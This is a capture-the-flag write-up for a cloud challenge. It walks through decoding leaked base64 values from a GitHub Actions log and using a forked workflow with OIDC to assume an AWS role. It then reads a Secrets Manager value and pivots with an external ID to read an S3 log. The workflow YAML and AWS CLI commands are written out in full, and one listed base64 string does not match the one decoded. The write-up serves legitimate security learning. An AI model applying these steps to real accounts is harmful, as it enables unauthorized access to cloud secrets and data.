

# Actions - Cloud Village CTF 2025

## Challenge Description




## Initial Discovery

Inside the bucket there was a HTML file referencing a Github organization: https://github.com/HEXNOVA404


There was a couple of repos, and one of them had a [github action log that leaked some useful info](https://github.com/HEXNOVA404/Organisation-Vault/actions/runs/16701033362/job/47272191258):


We found the Role ARN and a `secret_id` provided as base64-encoded strings:
- `YXJuOmF3czppYW06OjE3MDk3NDUwNjUxNTpyb2xlL2dpdGh1Yi1kZXBsb3ltZW5lcm9sZQ=`
- `aW50ZXJuYWwvc2VjcmV0cy9pZC12Mg==`

Decoding them:

```bash
echo 'YXJuOmF3czppYW06OjE3MDk3NDUwNjUxNTpyb2xlL2dpdGh1Yi1kZXBsb3ltZW50LXJvbGU=' | base64 -d
arn:aws:iam::170974506515:role/github-deployment-role

echo 'aW50ZXJuYWwvc2VjcmV0cy9pZC12Mg==' | base64 -d
internal/secrets/id-v2
```


I created a private fork and tried, assuming the first role, to access the secret:
```
name: ctf

on:
  workflow_dispatch:

permissions:
  id-token: write
  contents: read

jobs:
  tf:
    runs-on: ubuntu-latest

    steps:
      - name: Configure AWS credentials via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::170974506515:role/github-deployment-role
          role-session-name: github-deployment-role
          aws-region: us-west-2

      - name: Get secret
        run: |
          SECRET_JSON=$(aws secretsmanager get-secret-value \
            --secret-id internal/secrets/id-v2 \
            --region us-west-2 \
            --query 'SecretString' \
            --output text)

          EXTID=$(echo "$SECRET_JSON" | jq -r '.external_id')
          echo "extid: $EXTID"
```


In parallel, we discovered this gist within the same organization:


Inspecting the raw content (or the revisions), we found a different role ARN, an S3 bucket, and a mention of the external ID:


Using the external ID, we then attempted to access the S3 bucket:
```
      - name: Assume role with external id and echo flag
        run: |
          aws sts assume-role \
            --role-arn "arn:aws:iam::170974506515:role/prod-readonly-auditor" \
            --role-session-name "pivot" \
            --external-id "$EXTID"

          aws s3 cp s3://ci-deployment-logsv1/ci-deploy-output.log -
```
*(Note: We first performed an `aws s3 ls` to list the bucket's contents.)*

Boom! 💥
